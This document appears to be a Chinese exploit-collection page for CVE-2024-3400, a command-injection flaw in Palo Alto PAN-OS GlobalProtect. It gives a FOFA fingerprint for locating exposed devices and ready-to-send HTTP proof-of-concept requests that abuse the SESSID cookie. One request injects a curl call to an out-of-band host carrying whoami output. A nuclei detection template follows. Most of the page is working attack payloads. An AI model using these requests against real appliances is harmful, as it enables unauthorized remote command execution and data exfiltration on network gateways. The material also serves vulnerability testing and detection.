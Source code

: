 ## PAN-OS安全设备存在命令执行漏洞(CVE-2024-3400)

PAN-OS安全设备是PaloAlto公司的一款VPN设备，其使管理者无论位于何处都能够通过将下一代安全平台扩展到所有用户保护网络安全。它通过应用平台的功能来了解应用程序的使用情况。它将流量与用户和设备相关联并通过下一代技术实施安全策略来保护流量。其GlobalProtect功能的login.esp接口的Cookie存在未授权远程命令执行漏洞，攻击者可通过该漏洞控制设备。

## fofa
```
icon_hash="-631559155"
```


## poc
```
POST /ssl-vpn/hipreport.esp HTTP/1.1
Host: 127.0.0.1
Cookie: SESSID=/../../../var/appweb/sslvpndocs/global-protect/portal/images/hellome1337.txt;
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![image](../../images/d94dec78-deb5-440c-9883-99ec1d954ebe.png)

## Command Injection
```
POST /ssl-vpn/hipreport.esp HTTP/1.1
Host: 127.0.01
Cookie: SESSID=./../../../opt/panlogs/tmp/device_telemetry/minute/h4`curl${IFS}xxxxxxxxxxxxxxxxx.oast.fun?test=$(whoami)`;
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

## CVE-2024-3400.yaml
```
id: palo-alto-networks-pan-os-command-injection
info:
  name: Palo Alto Networks PAN-OS Command Injection Vulnerability
  author: generated with pdteam AI
  severity: Critical

http:
  - method: POST
    path:
      - "{{BaseURL}}/ssl-vpn/hipreport.esp"
    headers:
      Cookie: "SESSID=/../../../var/appweb/sslvpndocs/global-protect/portal/images/poc.txt;"
      Connection: "close"
      Content-Type: "application/x-www-form-urlencoded"
      Content-Length: "0"
    matchers:
      - type: status
        status:
          - 200

  - method: GET
    path:
      - "{{BaseURL}}/global-protect/portal/images/poc.txt"
    matchers:
      - type: status
        status:
          - 403
```

## 漏洞来源
- https://github.com/h4x0r-dz/CVE-2024-3400

